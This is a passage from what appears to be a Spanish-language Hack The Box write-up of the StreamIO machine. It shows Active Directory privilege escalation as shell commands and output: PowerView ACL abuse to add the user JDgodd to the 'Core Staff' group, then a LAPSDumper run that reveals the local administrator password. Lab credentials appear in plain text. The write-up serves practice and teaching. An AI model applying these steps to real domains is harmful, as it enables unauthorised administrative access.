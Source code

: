 .

<img src="/assets/images/htb/streamio/streamio10.png" style="display: block; margin-left: auto; margin-right: auto; width: 70%;"/>

Siguiendo como son aconseja BloodHound, con JDgodd podemos escribir sobre Core Staff

Como no podemos conectarnos por Evil-WinRM con JDgodd, lo haremos con el usuario NIKK37

Para ello tendremos que importar el modulo <a href="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" target="_blank">Powerview.ps1</a>
```powershell
*Evil-WinRM* PS C:\Users\nikk37\Documents>upload Powerview.ps1
nfo: Uploading /opt/PowerView.ps1 to C:\Users\nikk37\Documents\PowerView.ps1
                                                             
Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\nikk37\Documents> Import-Module "C:/Users/nikk37/Documents/Powermad.ps1"

*Evil-WinRM* PS C:\Users\nikk37\Documents> $Pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

*Evil-WinRM* PS C:\Users\nikk37\Documents> $Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $Pass)

*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"

*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainGroupMember -Identity "Core Staff" -Members "StreamIO\JDgodd" -Credential $Cred
```

Con esto le asignamos al propio JDgodd el grupo Core Staff y en consecuencia estamos en el grupos LAPS(del ingles, Local Administrator Password Solution)

Ahora, estando en el grupo LAPS podemos con <a href="https://raw.githubusercontent.com/n00py/LAPSDumper/main/laps.py" target="_blank">LAPSDumper</a> cambiar de forma TEMPORAL la contraseña del administrador
```ruby
❯ wget https://raw.githubusercontent.com/n00py/LAPSDumper/main/laps.py

...[snip]...

❯ python3 laps.py -u 'JDgodd' -p 'JDg0dd1s@d0p3cr3@t0r' -d streamio.htb
LAPS Dumper - Running at 09-17-2022 02:53:26
DC nUaf7Fz9,8ysY@
```
